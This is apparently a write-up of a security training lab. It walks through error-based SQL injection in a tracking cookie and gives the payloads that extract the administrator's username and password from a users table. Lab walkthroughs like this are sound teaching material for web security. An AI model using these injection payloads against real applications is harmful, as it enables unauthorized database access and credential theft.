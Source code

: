 # Visible error-based SQL injection


This lab contains a SQL injection vulnerability.
The application uses a tracking cookie for analytics,
and performs a SQL query containing the value of the submitted cookie.

### The target we will need to focus is TrackID 

End Goals :
* Exploit SQLi , Leak the username & password .
* Login as the administrator user .
------------
Analysis :
1- test that parameters is vulnerable .
# Intercept
open the burp suite catch request and send it to repeater to test possible SQL injections .

```
TrackingId=MTHshxABbU9laks5'
```
 > 500 Internal Error

```
TrackingId=MTHshxABbU9laks5'-- 
```
 > 200 OK

" Confirm that no longer receive an error "

2 -  use SELECT , CAST the returned value to an `int` data type:

```
trackingId=MTHshxABbU9laks5' AND CAST ((SELECT 1) AS int)--
 ```

- error saying that an `AND` condition must be a boolean
- 

3 - Modify the condition, you can simply add a comparison operator (`1=`):

```
TrackingId=MTHshxABbU9laks5' AND 1=CAST((SELECT 1) AS int)--
 ```

- '  valid query  '

## Try to output information from DB:
- " from error output "

4 - The lab give us the table ‘users’ we'll use it 

```
trackingId=MTHshxABbU9laks5' AND 1=CAST((SELECT username FROM users) AS int )--
 ```

## Error : Maximum number of characterso, lets delete the cookie value and see what happen
- new error : more than one row returned

5 - Since too many rows are returned, we can limit it to only 1 username . 

```
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
 ```

- The error message now shows us the username ‘administrator’

6 - now lets try it with password and see if he give us the pass also or not :)

```
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```
![image](https://github.com/Renat9s/sqli-labs/assets/126417250/d299dc5a-db14-4532-a703-a06a793c9e28)


- yes he did , Leaked the password also.
--------------------------------------------------------------------------
SOLVED THE LAB <3

